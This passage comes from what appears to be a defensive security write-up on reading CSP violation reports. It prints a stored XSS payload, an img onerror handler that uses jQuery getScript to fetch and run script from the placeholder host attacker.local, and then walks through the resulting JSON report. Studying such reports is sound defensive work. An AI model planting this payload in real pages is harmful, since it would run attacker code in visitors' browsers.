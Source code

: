 ```html
<img src='x' onerror='$.getScript("//attacker.local:9000/payload.js")'>
```

😈 The code says instruct the browser to load an image on the relative url "x" and if it failed (it will be the case) then execute the code specified into the `onerror` handler. This one leverage the function `getScript` ([documentation](https://api.jquery.com/jQuery.getScript/)) to load and execute the script located on the location specified.

The notification received was the following ([documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP#enabling_reporting)):

```json
{
    "csp-report": {
        "document-uri": "http://righettod.local:8000/shop-detail.php",
        "referrer": "http://righettod.local:8000/",
        "violated-directive": "script-src-elem",
        "effective-directive": "script-src-elem",
        "original-policy": "default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://fonts.gstatic.com; img-src 'self' data: blob:; font-src 'self' https://fonts.googleapis.com https://fonts.gstatic.com; report-uri /csp-notification-listener.php",
        "disposition": "report",
        "blocked-uri": "http://attacker.local:9000/payload.js?_=1707557354256",
        "line-number": 2,
        "column-number": 83755,
        "source-file": "http://righettod.local:8000/js/jquery.min.js",
        "status-code": 200,
        "script-sample": ""
    }
}
```

🤨 Based on this content and our knowledge of the CSP concepts, we understood the following elements:

1. The violation occurred on page **shop-detail.php**.
2. The violation was caused by a non-respect of the instruction defined by the directive **script-src-elem**:
    * We did not specify this directive into our CSP policy!
    * Such directive is in advanced features of CSP allowing to define policies at a more precise level that the **script-src** base directive in general.
3. The violation occurred precisely in file **js/jquery.min.js**:
    * It is not our code, it is the JQuery core library!
    * Even if it is the real location of the violation from a technical perspective. For us from an analysis perspective of the attack, it is the `<img>` tag into the comment of the review where the attack is located.
    * This attribute is not documented into the [Mozilla MDN documentation about CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP#violation_report_syntax) (at least on mid February 2024).
    * The current version of the [CSP specification](https://www.w3.org/TR/CSP3) say this thing about the **source-file** attribute: `Each violation has a source file, which is either null or a URL.` ([source](https://www.w3.org/TR/CSP3/#violation-source-file))

👓 So, even if the notification contains a lot of very useful information regarding the attack and the payload used, it will quickly become hard to effective analyze the attack. Indeed, as indicated in the [Mozilla MDN documentation about CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP#violation_report_syntax), some information can depend on the browser in which CSP was executed.:

